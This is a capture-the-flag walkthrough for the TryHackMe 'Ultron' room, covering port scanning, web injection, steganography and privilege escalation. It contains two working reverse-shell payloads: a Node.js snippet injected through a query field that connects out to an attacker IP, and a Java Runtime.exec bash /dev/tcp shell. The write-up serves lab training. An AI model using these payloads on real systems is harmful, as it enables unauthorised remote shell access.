# ultron ctf -TryHackMe
## Author : RjRaju

### Ultron CTF room [line](https://tryhackme.com/room/ultr0nctf)

# Port Scan

* __First we need to scan the open ports, Let's use rustscan or nmap to scan the open ports.__


# Rustscan



# Nmap Scan



# Open Ports

```
Open 10.10.98.46:7022
Open 10.10.98.46:7127
Open 10.10.98.46:8800
```

## **OpenSSH running on port 7022**


## **Nginx server running on port 8800**



## **Unknown login service running on port 7127**




* lets move on port **8800**

# web login



* Let's run Gobuster in order to find any directories on the service.



* There is nothing intresting on the page, so let's register the account and login.


* Let's see the request and responce on BurpSuit
* /source path there is a text box to enter the name, let's see the responce on Burpsuit



* send this request to repeater



* There is Bug on /source?name=hacker field, lets create a payload on JavaScript.


## JavaScript Payload

```js

var net = require("net"),sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(1234, "10.6.49.123", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
});

```

* Start Listening on port 1234 and encode the URL-Encode above payload, and send Request on BurpSuit.





* Now send the request and you will receive the reverse shell :).





* Here is the source code of web page, in web page there is a /upload path to list the directory listing.




* Let's copy the ultron.jpg file to upload folder, so we can download that file on web page /upload path



* Download both files and the meta data.
* The nothing.txt file is useless and ultron.jpg hava some meta data.
* let's download the file and use steghide to extract the hidden data. 



* Now we have the login cred's of port 7127 unknown service



* Now we have code execution, use ssh keys to login as ssh service.
* SSH service is listening on port 7022 as nmap scan shown..




* Use the **id_rsa** key to login as wandamaximoff user.



* We can't upload linPEAS or other scripts to server, because some kind of firewall's blocking the connection, let's do manual priv..


 
* Let's create a JAVA payload to login as vision user.

```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/127.0.0.1/2222 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

* We can't get the reverse shell on attacket box so lets get rev shell on BOX.
* Use TMUX for multi-pane on BOX.



* We got the revShell as vision user, let's stabilize the shell.



* submit the user flag.



* vision user can run openssl as root user with no password.




* Gtfobins


* root Flag



**Happy Hacking ! ..**